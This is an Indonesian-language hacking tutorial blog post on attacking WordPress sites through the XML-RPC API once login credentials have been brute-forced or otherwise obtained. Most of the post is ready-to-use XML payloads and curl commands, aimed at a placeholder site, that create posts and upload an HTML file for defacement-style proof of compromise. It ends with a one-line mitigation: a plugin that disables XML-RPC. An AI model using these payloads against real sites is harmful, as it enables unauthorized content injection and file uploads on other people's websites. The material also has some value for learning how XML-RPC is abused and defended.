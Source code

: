 ```yaml
---
layout: post
title: "Exploiting XML-RPC API pada WordPress"
tags: tutorial, exploit, hacking
category: exploit
description: Vulnerability pada XML-RPC bukan hanya BruteForce saja...
comments: true
fullview: false
---
```

Vulnerability pada XMLRPC / tahap setelah BruteForce / alternatif jika gagal login ke /wp-admin/ (403/404/500)


1. Add Post (Menambahkan Postingan)
Menambahkan Postingan Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addpost.xml

Lalu isikan dengan exploit berikut: 



<textarea style="background-color:black;color:lime;" rows="4" cols="40" readonly>&lt;?xml version=&quot;1.0&quot;?&gt; &lt;methodCall&gt;
&lt;methodName&gt;wp.newPost&lt;/methodName&gt; &lt;params&gt;
        &lt;param&gt;&lt;value&gt;parameter&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuser&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;value&gt;vulnuserpassword&lt;/value&gt;&lt;/param&gt;
        &lt;param&gt;&lt;struct&gt;
                &lt;member&gt;&lt;name&gt;post_title&lt;/name&gt;&lt;value&gt;Exploit To Add Post with XML-RPC&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_content&lt;/name&gt;&lt;value&gt;Seems Like The Site Was Vulnerable!&lt;/value&gt;&lt;/member&gt;
                &lt;member&gt;&lt;name&gt;post_excerpt&lt;/name&gt;&lt;value&gt;excerpt&lt;/value&gt;&lt;/member&gt;
        &lt;/struct&gt;&lt;/param&gt; &lt;/params&gt;</textarea>
 Saatnya mengexploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addpost.xml

Jika sukses akan tampil seperti ini:



Angka 6 adalah id postnya

Cara melihat postingannya dengan menambahkan ?p=idpostingan 

Contoh: http://vulnsite.com/?p=6



Post Sukses Dibuat.



 Add Media/File (Menambahkan Media/File)


Menambahkan Media atau File Baru Dengan POST XMLRPC:

Buka terminal linux (kali/ubuntu/termux/dll..)

Masukan command: nano addfile.xml

Lalu isikan dengan exploit berikut: 



<?xml version="1.0"?> <methodCall>

<methodName>metaWeblog.newMediaObject</methodName> <params>

        <param><value>parameter</value></param>

        <param><value>vulnuser</value></param>

        <param><value>vulnuserpassword</value></param>

        <param><struct>

                <member><name>name</name><value>touched.html</value></member>

                <member><name>type</name><value>text/plain</value></member>

                <member><name>bits</name><value>

                <![CDATA[<h1><center>File Uploaded Success<br/>XML-RPC add file exploit</center></h1>]]>

</value></member>

        </struct></param> </params>

</methodCall>



Exploit!

Masukan command: 

curl http://vulnsite.com/xmlrpc.php --data @addfile.xml

Jika sukses akan tampil seperti ini:



File sukses disimpan sesuai dengan nama yg telah ditentukan, di sini saya namakan filenya touched.html

Cara melihat hasil file yg tersimpan:

http://vulnsite.com/wp-content/uploads/2021(tahun saat upload)/05(bulan saat upload/namafile.html

Mari kita cek!:



File sukses terupload!



Cara mencegah exploit ini adalah dengan menginstall plugin bernama "Disable XML-RPC" lalu aktifkan, dan xmlrpc akan aman.



Sekian dari saya, semoga berguna dan bermanfaat!




